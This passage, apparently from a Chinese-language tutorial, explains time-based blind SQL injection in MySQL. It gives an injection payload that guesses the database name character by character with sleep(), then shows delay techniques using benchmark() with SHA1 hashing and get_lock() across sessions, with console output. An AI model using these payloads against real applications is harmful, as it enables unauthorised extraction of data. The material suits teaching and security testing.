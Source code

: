 通过时间盲注猜解字符

```mysql
select * from users where id='1' and if(substr(database(),1,1)='a',sleep(3),1)-- 
```

当sleep()被禁用时，还可以尝试通过注入消耗时间和性能的sql语句，达到时间延时的效果。



**（2）benchmark()**

关键函数：benchmark(N,expression)、MD5()、SHA1()

benchmark函数用于重复执行某个语句，N代表要重复执行的次数，expression代表要执行的语句。可以通过benchmark函数进行大量消耗性能的复杂运算，达到时间延时的效果。例如，可以令benchmark重复执行md5、sha1哈希计算数万次。

当执行2000w次SHA1运算，在本地数据库测试次语句后，大约耗时3.6s；执行5000w次时大约需要9s。

```mysql
mysql> select benchmark(20000000,sha1('hello world'));
+-----------------------------------------+
| BENCHMARK(20000000,SHA1('hello world')) |
+-----------------------------------------+
|                                       0 |
+-----------------------------------------+
1 row in set (3.60 sec)
```



**（3）get_lock()**

关键函数：`get_lock(lock_name,timeout)`

注意，必须**不同的mysql session对同一个lock执行get_lock()操作时才会产生时延**，在同一个session中执行多次get_lock()不会产生时延。而且必须要提供长连接mysql_pconnect()。

> mysql_pconnect() 函数打开一个到 MySQL 服务器的持久连接。mysql_pconnect() 和 mysql_connect() 非常相似，但有两个主要区别：
>
> 当连接的时候本函数将先尝试寻找一个在同一个主机上用同样的用户名和密码已经打开的（持久）连接，如果找到，则返回此连接标识而不打开新连接。
>
> 其次，当脚本执行完毕后到 SQL 服务器的连接不会被关闭，此连接将保持打开以备以后使用（mysql_close() 不会关闭由 mysql_pconnect() 建立的连接）。

+ 开启一个mysql session，执行获取锁操作。

```mysql
mysql> select GET_LOCK('lock1',1);
+---------------------+
| GET_LOCK('lock1',1) |
+---------------------+
|                   1 |
+---------------------+
1 row in set (0.00 sec)
```

+ 开启一个新的mysql session，尝试获取该锁，会产生1s时延。假如将第二个参数timeout设置为5，那么会产生5s时延。

```mysql
mysql> select GET_LOCK('lock1',1);
+---------------------+
| GET_LOCK('lock1',1) |
+---------------------+
|                   0 |
+---------------------+
1 row in set (1.00 sec)

mysql> select GET_LOCK('lock1',5);
+---------------------+
| GET_LOCK('lock1',5) |
+---------------------+
|                   0 |
+---------------------+
```